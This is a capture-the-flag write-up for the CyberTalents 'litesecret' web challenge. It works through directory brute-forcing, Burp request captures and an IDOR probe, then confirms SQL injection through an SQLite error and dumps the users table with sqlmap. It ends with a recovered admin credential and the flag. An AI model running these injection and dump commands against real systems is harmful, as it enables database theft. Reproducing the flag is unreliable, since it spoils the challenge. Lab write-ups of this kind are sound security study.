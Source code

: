 # Solve litesecret
#### https://cybertalents.com/challenges/web/litesecret

![alt text](images/image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

### Analyze the source code and endpoints
```
Welcome -> http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/home/1
About us -> http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/home/2
```
Nothing important 

#### login
![alt text](images/image-1.png)
test admin:admin -> Incorrect username or password

### Analyze with burp

```http
POST /login HTTP/1.1
Host: wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,images/image/avif,images/image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/login
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

```http
HTTP/1.1 200 OK
Server: nginx/1.27.1
Date: Sun, 09 Feb 2025 00:25:05 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 30
Connection: close
X-Powered-By: Express
ETag: W/"1e-rLNS954LHEEL+kNUFi+s5vEu3/o"

Incorrect username or password
```
test sqli but it seems not injectable

### IDOR
```bash
curl http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/home/3
```
worked but 

### SQLI
```bash
curl -i "http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/home/'"
HTTP/1.1 500 Internal Server Error
Server: nginx/1.27.1
Date: Sun, 09 Feb 2025 00:29:39 GMT
Content-Length: 45
Connection: keep-alive
X-Powered-By: Express

Error: SQLITE_ERROR: unrecognized token: "'"                                                                                                                                                 
```
```bash
sqlmap -u http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/home/1 --dbms=sqlite --ignore-code 400,500 --random-agent -technique=BU --level 5 --risk 3 --dump --answers="Y" 
```
*Note: B: Boolean-based blind and U: Union query-based*

get the data of users table
```bash
sqlmap -u http://wcamxwl32pue3e6mkgvdrq0i9zrqj6zqdkgxu639-web.cybertalentslabs.com/home/1 --dbms=sqlite --ignore-code 400,500  --level 5 --risk 3 --dump -T users --threads 10
```

login with Admin:3da0f453651f0eca43e02645b68ec83c3c659b9d57ea556d0842047c9393c789

![alt text](images/image-2.png)

FLAG{4adc81ee29410e84b89f52c529a9b80774713a68aca48ffd6d0614896aa8704f}


>Find More on ==> github.com/MedhatHassan 

